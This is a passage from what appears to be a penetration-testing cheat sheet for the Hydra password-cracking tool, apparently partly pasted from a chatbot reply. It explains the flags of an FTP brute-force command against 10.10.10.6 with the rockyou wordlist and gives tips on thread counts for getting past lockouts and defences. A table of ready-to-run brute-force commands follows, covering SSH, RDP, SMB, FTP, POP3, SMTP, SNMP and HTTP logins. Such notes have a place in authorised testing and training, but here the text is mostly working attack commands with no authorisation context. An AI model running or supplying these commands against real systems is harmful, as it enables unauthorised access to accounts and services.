 This distinction isn’t absolute—always monitor the target’s behavior and adjust the thread count as needed.

###### **Breaking Down the Command**:

| **Section**             | **Function**                                                                      |
| ----------------------- | --------------------------------------------------------------------------------- |
| `hydra`                 | Executes the Hydra tool                                                           |
| `-t 4`                  | Specifies **4 parallel connections** for faster cracking                          |
| `-l [user]`             | Specifies the **username** for the account being targeted (e.g., "dale")          |
| `-P [path to wordlist]` | Specifies the path to a **wordlist** of potential passwords (e.g., "rockyou.txt") |
| `-vV`                   | Enables **verbose mode**, showing login attempts and results                      |
| `[target IP]`           | The **IP address** of the target machine                                          |
| `ftp`                   | Specifies the **FTP protocol** for Hydra to attack                                |

---

### **Key Notes:**

- **Fragile Protocols**: These are more likely to crash, lock accounts, or trigger defenses (CAPTCHA, IP bans) during brute-forcing attempts. Use **low thread counts** (e.g., `-t 4` or `-t 8`) for these.
- **Robust Protocols**: These can handle more concurrent connections and higher thread counts (e.g., `-t 16` or `-t 32`) without significant risk of service disruption.

###### **Example Command**:

```bash
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

This command will attempt to crack the FTP password for the user **dale** on the server at **10.10.10.6**, using the **rockyou.txt** wordlist.


Certainly! Below is a well-organized cheatsheet for Hydra password cracking in the form of a table. This table includes the commands, descriptions, protocols, and options used for each command.

| Command                                                                                                                                  | Description                                                                 | Protocol | Options Used                                                                 |
|------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------|----------|------------------------------------------------------------------------------|
| `hydra -P password-file.txt -v $ip snmp`                                                                                                 | Brute force SNMP with a password list.                                      | SNMP    | `-P`, `-v`                                                                   |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`                                                                   | Brute force FTP with a specific username and rockyou password list.         | FTP     | `-t`, `-l`, `-P`, `-vV`                                                     |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`                                                                         | Brute force SSH with a list of users and passwords.                         | SSH     | `-v`, `-V`, `-u`, `-L`, `-P`, `-t`                                           |
| `hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh`                                                                                    | Brute force SSH with a username list and empty password.                    | SSH     | `-v`, `-V`, `-u`, `-L`, `-p`, `-t`                                            |
| `hydra $ip -s 22 ssh -l <username> -P big_wordlist.txt`                                                                                | Brute force SSH against a known username on port 22.                       | SSH     | `-s`, `-l`, `-P`                                                             |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`                                                                     | Brute force POP3 with a specific username and password list.               | POP3    | `-l`, `-P`, `-f`, `-V`                                                       |
| `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`                                                                                    | Brute force SMTP with a password list.                                      | SMTP    | `-P`, `-V`                                                                   |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`                                                                             | Brute force HTTP GET 401 login with a dictionary.                          | HTTP    | `-L`, `-P`                                                                   |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`                                                      | Brute force RDP with rockyou password list.                                 | RDP     | `-t`, `-V`, `-f`, `-l`, `-P`                                                  |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`                                                       | Brute force SMB with rockyou password list.                                 | SMB     | `-t`, `-V`, `-f`, `-l`, `-P`                                                  |